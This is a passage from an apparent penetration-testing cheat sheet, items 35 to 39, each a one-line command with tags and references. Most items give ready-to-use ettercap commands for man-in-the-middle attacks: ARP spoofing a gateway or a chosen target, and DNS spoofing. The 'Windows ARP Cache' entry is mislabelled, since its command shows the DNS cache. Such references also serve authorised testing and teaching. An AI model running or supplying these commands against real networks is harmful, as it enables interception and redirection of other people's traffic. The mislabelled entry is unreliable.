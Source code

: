 https://www.labnol.org/software/find-wi-fi-network-password/28949/
__________
### 35. Windows ARP Cache
```
ipconfig /displaydns
```
**- networking,enumeration,Windows**
#### References:

https://technet.microsoft.com/en-gb/library/bb490921.aspx
__________
### 36. ARP Spoofing filter
```
etterfilter *.filter -o smb.ef
```
**- linux,networking,MitM**
#### References:

https://ettercap.github.io/ettercap/
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 37. ARP Spoofing gateway
```
ettercap -i em1 -L etter.log -T -M arp:remote /192.168.104.254/// ////
```
**- linux,networking,MitM**
#### References:

https://ettercap.github.io/ettercap/
https://yg.ht
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 38. ARP Spoofing everything
```
ettercap -i wlan0 -L etter.log -T -M arp:remote -L [CLIENT+TARGET].log /[GW IP]// /[TARGET IP]//
```
**- linux,networking,MitM,wifi**
#### References:

https://ettercap.github.io/ettercap/
https://yg.ht
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 39. ARP Spoofing DNS
```
ettercap -i [interface] -L etter.log -T -P dns_spoof -M arp:remote -L [CLIENT+TARGET].log /[GW IP]// /[TARGET IP]//
```
**- linux,networking,MitM,wifi**
#### References:
